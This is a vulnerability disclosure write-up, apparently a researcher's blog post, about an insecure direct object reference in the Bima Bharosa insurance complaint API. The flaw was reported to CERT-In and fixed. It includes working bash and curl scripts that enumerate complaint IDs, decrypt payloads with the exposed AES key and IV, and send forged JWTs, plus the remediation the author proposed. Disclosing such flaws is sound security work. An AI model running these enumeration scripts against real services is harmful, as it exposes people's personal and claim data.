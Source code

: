 ```yaml
---
title: Bimabharosa IRDAI
date:
  created: 2025-08-14
  updated: 2025-09-12
---
```


<br>

The Bima Bharosa portal (<https://bimabharosa.irdai.gov.in>) had a vulnerability in its complaint history API that allowed access to sensitive complaint details by simply incrementing the complaint ID. This exposed personal and claim information of policyholders without authentication.

Summary of the vulnerabilities:

| Sr | API | Date reported | Date fixed | Days taken | CERT-in reference number |
|----|-----|--------------|------------|------------|--------------------------|
| 1  | [GetComplainthistorydata](#1-getcomplainthistorydata) | 18 November 2024 | before 30 November 2024 | less than 12 days | 68209424 |
| 2  | [encrypted GetComplainthistorydata](#2-getcomplainthistorydata-encrypted-payload) | 30 November 2024 | 1 January 2025 | 31 days | 68209424 |

Root cause in [OWASP](https://cheatsheetseries.owasp.org/index.html) terms:

- A01 2021 Broken Access Control: CWE-284 Improper Access Control, CWE-285 Improper Authorization
- A04 2021 Insecure Design: Insecure Direct Object Reference
- A07 2021 Identification and Authentication Failures: CWE-287 Improper Authentication

<!-- more -->

### 1. GetComplainthistorydata

The API endpoint `/api/PolicyholderComplaint/GetComplainthistorydata` accepted a POST parameter `complaint_Id` and returned the full complaint history for that ID. No authentication or authorization was required. By incrementing the `complaint_Id`, an attacker could access complaint details of other users, including names, policy numbers, claim details, and remarks from insurers.

```bash title="sample_script.sh" linenums="1"
#!/bin/bash
curl 'https://bimabharosa.irdai.gov.in/api/PolicyholderComplaint/GetComplainthistorydata' -X POST \
 --data-raw 'complaint_Id=4390102'
```

<details>
<summary>Sample response</summary>
```json linenums="1"
---8<--- "docs/vuln/posts/content_bimabharosa/bimabharosa_vuln_1.json"
```
</details>

### $$ Bogus encryption

An encryption was added to API request and response but with the KEY and IV exposed in the front-end code.

```bash title="encr_decr.sh" linenums="1"
#!/bin/bash
# Hex representation of "1234567890000000", exposed in the front-end code.
KEY=3132333435363738393030303030303031323334353637383930303030303030
# Hex representation of "7061737323313233", exposed in the front-end code.
IV=37303631373337333233333133323333

decrypt() {
    echo $(echo -n "$1"| xxd -r -p | openssl enc -aes-256-cbc -d -K "$KEY" -iv "$IV" -nosalt)
}

encrypt() {
    echo $(echo -n "$1" | openssl enc -aes-256-cbc -K "$KEY" -iv "$IV" | xxd -p | tr '[:lower:]' '[:upper:]')
}

for i in "BB2D310BF97F463A42D24E39C1187650" "C5C26E3D620D69E9422744CF50A3D523" "159EF5E147F60C65ECFBF9F9E7B31794"; do
    echo "Input: $i"
    decrypted=$(decrypt "$i")
    echo "Decrypted: $decrypted"
    echo
done

for i in "[]" "null" ""; do
    echo "Input: $i"
    encrypted=$(encrypt "$i")
    echo "Encrypted: $encrypted"
    echo
done
```

### 2. GetComplainthistorydata encrypted payload

This API accepted encrypted payload and provided encrypted response, but still without authorization checks.

Further, any JWT that anyone created was accepted by the API.

The two joined tokens in the header `Authorization` are useless.

```bash title="sample_script_encrypted.sh" linenums="1"
for complaint_id in {4390200..4390249}; do
    input="{\"complaint_Id\":\"$complaint_id\"}"

    payload="$(encrypt "$input")"

    curl -X POST "https://bimabharosa.irdai.gov.in/api/PolicyholderComplaint/GetComplainthistorydata" \
    -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1bmlxdWVfbmFtZSI6Ijk5OTk5OTk5OTkiLCJuYmYiOjE3MzI5NjgzNjQsImV4cCI6MTczMjk2ODQyNCwiaWF0IjoxNzMyOTY4MzY0fQ.h8DOqtaQ-aLch-XbiSSzUIIZKmPKq2eVScY20x1yEbQ:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1bmlxdWVfbmFtZSI6Ijk5OTk5OTk5OTkiLCJuYmYiOjE3MzI5NjgzNjQsImV4cCI6MTczMjk3MTk2NCwiaWF0IjoxNzMyOTY4MzY0fQ.7ftbp4DhReEyRiXqvfu6E3st1jgqJ_u2EJUr9Rog7os" \
    -H "Cookie: portal-culture=en; $$$$$$$$" \
    --data-urlencode "EncryptUpdateData=$payload" \
    -o "bimabharosa_vuln_2_$complaint_id.json"

    decrypt "$(cat "bimabharosa_vuln_2_$complaint_id.json")" > "bimabharosa_vuln_2_decr_$complaint_id.json"
done
```

### $$ Proper fix

After I provided pseudo-code to CERT-in (and bimabharosa), a proper fix was implemented. In the JWT,
a field was added to list all the complaint IDs. Upon subsequent calls to the APi, only if
the token contained the current ID, the API would return the response.

> Token creation code:
>
> ```
> token.complaint_ids = db.get_all_complaint_ids_of_user(user_id)
> ```
>
> API code:
>
> ```
> if token.complaint_ids.contains(api_payload.complaint_id):
     > return data
> else:
     > return "Unauthorized"
>
> ```
>
> Expired tokens should be rejected!!
>
> Remove the encryption and decryption logic from the payload and response. It is useless. It is security by obscurity which is a bad idea. Data protection can be done without encryption by using JWT tokens properly.
